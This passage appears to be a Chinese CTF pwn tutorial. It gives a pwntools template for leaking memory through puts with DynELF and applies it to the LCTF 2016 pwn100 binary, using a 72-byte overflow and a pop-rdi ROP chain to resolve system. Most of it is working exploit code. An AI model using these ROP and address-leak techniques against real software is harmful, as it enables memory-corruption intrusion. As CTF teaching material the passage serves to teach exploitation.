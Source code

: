 - puts函数输出完后还有其他输出

```python
    def leak(address):
    count = 0
    data = ""
    payload = xxx
    p.send(payload)
    print p.recvuntil("xxx\n") #一定要在puts前释放完输出
    up = ""
    while True:
        c = p.recv(1)
        count += 1
        if up == '\n' and c == "x":  #一定要找到泄漏信息的字符串特征,即puts函数输出完其他输出的第一串字符串的特征，这里用x表示
            data = data[:-1]
            data += "\x00"
            break
        else:
            data += c
            up = c
    data = data[:4]
    log.info("%#x => %s" % (address, (data or '').encode('hex')))
    return data
```

例`~/LCTF 2016-pwn100/pwn100`,程序的溢出点在sub_40063D中，但是程序是64位的，传入参数时比较麻烦。通过上面的模板泄露system函数：

```python
    from pwn import *

    p = process('./pwn100')
    elf = ELF('./pwn100')

    puts_plt = elf.symbols['puts']
    log.info("puts_plt = %#x",puts_plt)

    def leak(addr):
        count = 0
        up = ''
        data = ''
        payload = 'A'*72 + p64(pop_rdi) + p64(addr) + p64(puts_plt) + p64(main)
        payload = payload.ljust(200,'\x00')
        p.send(payload)

        p.recvuntil("bye~\n")
        while True:
            c = p.recv(numb=1,timeout=0.1)
            count += 1
            if up == '\n' and c == '':
                data = data[:-1]
                data += "\x00"
                break
            else:
                data += c
                up = c
        data = data[:4]
        log.info("%#x => %s" % (addr, (data or '').encode('hex')))
        return data

    main = 0x04006B8
    pop_rdi = 0x0400763
    # pop rdi;ret

    d = DynELF(leak,elf=ELF('./pwn100'))

```